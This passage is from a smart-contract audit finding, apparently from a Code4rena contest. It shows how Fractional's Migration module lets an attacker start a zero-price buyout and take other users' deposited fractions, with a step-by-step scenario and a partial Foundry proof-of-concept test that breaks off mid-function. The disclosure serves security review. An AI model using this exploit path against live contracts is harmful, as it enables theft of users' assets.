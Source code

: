 [https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/Migration.sol#L210](https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/Migration.sol#L210)

[https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/Buyout.sol#L73](https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/Buyout.sol#L73)

### [](#impact-3)Impact

When buyout starts, it takes all fractions owned by proposer. This means that when `Migration` contract starts a buyout, it takes all fractions it has, not just the fractions from the proposal. This is easily exploitable by anyone.

Stealing fractions scenario:

1.  Bob starts a proposal, deposits `3000` fractions
2.  Alice immediately starts another proposal with `targetPrice = 0`, deposits `0 fractions` and minimal ether (`value: 1`, which is `10^-18 ether`)
3.  Since price is larger than targetPrice, Alice immediately commits the proposal
4.  Buyout is started, but instead of `0 fractions` it has `3000 fractions` from bob, because starting buyout took all `Migration`’s fractions.
5.  Alice immediately buys `3000 fractions` from buyout for free (`0 ether`).
6.  At this point Alice has successfully stolen all deposited fractions.

### [](#proof-of-concept-5)Proof of Concept

Add this code to test/Migration.t.sol

    function testPanprogBugH4() public {
    	initializeMigration(alice, bob, 10000, 10000, true);
    
    	(nftReceiverSelectors, nftReceiverPlugins) = initializeNFTReceiver();
    	// Migrate to a vault with no permissions (just to test out migration)
    	address[] memory newModules = new address[](2);
    
    	newModules[0] = migration;
    	newModules[1] = modules[1];
    
    	// Bob makes the proposal
    	bob.migrationModule.propose(
    		vault,
    		newModules,
    		nftReceiverPlugins,
    		nftReceiverSelectors,
    		TOTAL_SUPPLY * 2,
    		10 ether
    	);
    	// Bob joins the proposal with 3000 fractions
    	bob.migrationModule.join{value: 1 ether}(vault, 1, 3000);
    
    	// Alice starts a competing proposal (we use bob's data for simplicity)
    	alice.migrationModule.propose(
    		vault,
    		newModules,
    		nftReceiverPlugins,
    		nftReceiverSelectors,
    		TOTAL_SUPPLY * 10,
    		0 ether
    	);
    